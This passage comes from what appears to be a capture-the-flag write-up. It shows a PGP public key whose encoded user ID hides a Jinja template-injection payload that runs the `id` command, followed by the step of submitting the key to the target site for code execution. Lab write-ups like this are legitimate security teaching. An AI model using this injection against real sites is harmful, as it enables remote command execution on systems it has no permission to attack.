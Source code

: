         oxdf@hacky$ gpg --export -a rce-id@ssa.htb                                                           
    -----BEGIN PGP PUBLIC KEY BLOCK-----
       
    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
    VZmZVME7kgvVkPW/pC4bWcMdrw==
    =OcEz
    -----END PGP PUBLIC KEY BLOCK-----
    

  4. Enter the public key and signed message into the site and submit.

The result is code execution, as the result of the `id`command is clearly
there in the returned text:
